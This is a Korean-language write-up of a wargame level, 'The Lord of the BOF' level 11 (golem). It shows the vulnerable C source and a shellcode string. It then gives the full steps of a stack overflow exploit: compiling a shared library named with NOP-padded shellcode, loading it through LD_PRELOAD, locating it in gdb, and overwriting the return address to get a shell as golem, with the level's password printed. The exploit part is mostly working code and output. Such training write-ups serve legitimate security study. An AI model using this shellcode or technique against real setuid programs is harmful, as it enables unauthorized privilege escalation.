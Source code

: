 ```yaml
---
layout: post
title:  "[LOB]Level11. golem"
subtitle:   "[LOB]skeleton → golem"
categories: LOB
tags:
- Wargame
- LOB
- Write-up
---
```


## keyword : stack destroyer

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - golem
        - stack destroyer
*/
#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
	char buffer[40];
	int i;

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	if(argv[1][47] != '\xbf')
	{
		printf("stack is still your friend.\n");
		exit(0);
	}

	strcpy(buffer, argv[1]);
	printf("%s\n", buffer);

        // stack destroyer!
    memset(buffer, 0, 44);
	memset(buffer+48, 0, 0xbfffffff - (int)(buffer+48));
}
```

'\x2f'없는 shell(48byte) = \xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81



buffer의 시작주소부터 EBP주소까지 0으로 초기화하고,  RET이후부터 0xbfffffff까지 0으로 초기화 한다.

앞문제에서 심볼릭 링크를 이용한 공격을 막혔음을 의미한다.



이럴경우 LD_PRELOAD 환경변수를 이용해야 한다.



> **LD_PRELOAD**
>
> 프로세스를 실행하는 중에 라이브러리를 로딩할 때, LD_PRELOAD 환경변수가 설정되어 있으면 해당 변수에 지정된 라이브러리를 먼저 로딩하고, 이중 libc 함수명과 동일한 함수가 있다면 해당 함수를 먼저 호출해 준다. 이러한 특성을 이용하여 후킹도 가능하다.



##### 1. LD_PRELOAD 환경 변수 등록

tmp.c 라는 파일을 만들고 해당 파일에 NOP코드와 쉘코드로 구성된 파일명으로 컴파일 한다. 이때 `-fPIC -shared` 옵션을 사용하여 컴파일한다. <u>쉘코드 안에는 '\x2f'가 있으면 안된다.</u>

그리고 export LD_PRELOAD 명령어로 해당 파일을 등록한다. <u>이때 파일명을 반드시 절대경로로 지정해야 한다.</u>

> -fPIC : Position-Independent Code의 약자이며 .o 파일을 동적라이브러리로 사용하도록 컴파일 하는 옵션
>
> -shared : 공유 라이브러리를 만드는 옵션

```sh
[skeleton@localhost tmp]$ gcc -fPIC -shared tmp.c -o `python -c 'print "\x90"*100+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"'`
```

```sh
[skeleton@localhost tmp]$ export LD_PRELOAD="/home/skeleton/tmp/`python -c 'print "\x90"*100+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"'`"
```



```sh
(gdb) x/32x $esp-3000
....
0xbffff4f4:	0xbffff500	0x400075bb	0x40017000	0x00002fb2
0xbffff504:	0x40013868	0xbffff6e4	0x4000380e	0x40014478
0xbffff514:	0x6d6f682f	0x6b732f65	0x74656c65	0x742f6e6f
0xbffff524:	0x902f706d	0x90909090	0x90909090	0x90909090
0xbffff534:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff544:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff554:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff564:	0x90909090	0x90909090	0x90909090	0x90909090
(gdb)
0xbffff574:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff584:	0x90909090	0xeb909090	0xc9315e11	0x6c8032b1
0xbffff594:	0x8001ff0e	0xf67501e9	0xeae805eb	0x32ffffff
0xbffff5a4:	0x306951c1	0x69697430	0x6f6a6330	0x5451e48a
0xbffff5b4:	0xb19ae28a	0x0081ce0c	0x40013868	0x4000220c
0xbffff5c4:	0xbffffaf5	0x00000000	0x00000000	0x00000000
```

쉘코드가 포함된 LD_PRELOAD 의 주소를 구한다. (0xbffff534 : NOP중간 주소)



```sh
[skeleton@localhost skeleton]$ ./golem `python -c 'print "A"*44+"\x34\xf5\xff\xbf"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA4���
bash$ my-pass
euid = 511
cup of coffee
bash$ id
uid=510(skeleton) gid=510(skeleton) euid=511(golem) egid=511(golem) groups=510(skeleton)
```

`python -c 'print "A"*44+"\x34\xf5\xff\xbf"'`

##### **golem / cup of coffee**